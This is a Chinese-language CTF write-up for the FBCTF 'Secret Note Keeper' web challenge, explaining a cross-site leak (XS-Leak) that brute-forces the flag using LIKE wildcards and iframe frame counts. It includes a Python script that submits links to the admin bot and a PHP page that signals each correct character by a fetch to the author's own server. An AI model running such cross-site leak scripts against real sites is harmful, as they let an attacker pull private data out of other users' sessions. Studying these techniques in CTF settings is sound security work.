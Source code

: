 # Secret Note Keeper

## 題目分析

- 這題乍看之下功能跟 35C3 filemanager 沒啥兩樣
    - 登入/登出/註冊
    - Add Note
    - Search Note
    - Report Bug
- 回報自己的 domain 看一下 BOT 的 User-Agent:
    - `HeadlessChrome/74.0.3729.169 Safari/537.36`
    - Chrome 74，看起來沒辦法用 XSS Auditor 去判斷
- 踹了一下，發現有兩種特殊字元
    - `_`能匹配任意一個字元
    - `%`能匹配任意多個字元
- 另外在 Search Note ，如果有找到時，會用 iframe 把該 note 抓進來

## Exploit

- 這題很明顯想考 XS-Leak
- 到這邊大概就能想到可以利用 frame count 去判斷是否有找到 Note
    - 有找到 => frame count >= 1
    - 沒找到 => frame count = 0

- 寫個腳本暴力搜一下就行:

```python
import requests
import hashlib
import re


def POW(target):
    mx = 10 ** 9
    nonce = 0
    while nonce < mx:
        string = str(nonce)
        hash_result = hashlib.md5(string).hexdigest()
        if hash_result.startswith(target):
            print(hash_result)
            return string
        nonce += 1

alphabet = "@#$%^&*()-=+~:?0123456789|abcdefghijklmnopqrstuvwxyz<>ABCDEFGHIJKLMNOPQRSTUVWXYZ_"

for i in alphabet:

    cookie = {"session":"286b4d92-cf9d-4d8e-9da2-0d0ce6317ac2", "session":".eJwljjkOwzAMBP_C2oUOkiL9mUA8hKS14yrI32Mg2HJmgP3AYx15PmF_H1du8HgF7CAqXNVwJmG0qj0saBWt6qUPjegmprfC5u6JVKVRXblWcZ73PI14Yl9cR5_CLDciTjJyq3fVE4uMKbpKM13JEpjC3tpAD9jgOvP4n8HW4PsDAtIvzQ.XPJRVA.1J6roM-pNGSVmS9OS0rJr_BICpI;"}

    r = requests.get("http://challenges.fbctf.com:8082/report_bugs", cookies=cookie)
    #print(r.cookies)

    x = re.findall("proof of work for (.*) \(", r.text)
    print(x[0])

    ans = POW(x[0])
    print "ans:" + ans

    r2 = requests.post("http://challenges.fbctf.com:8082/report_bugs", data={"link":"http://kaibro.tw/log.php?1="+i, "pow_sol":ans, "body":"","title":""}, cookies=r.cookies)
    print r2.text
```

其中 log.php:

```php
<iframe src="http://challenges.fbctf.com:8082/search?query=fb{cr055_s173_l34<?php echo $_GET[1];?>%}" onload="if(this.contentWindow.length>=1){fetch('http://kaibro.tw/?fb=ok');}">
```

如果收到 `ok` 就代表找到該字元，就能繼續爆下一個字元
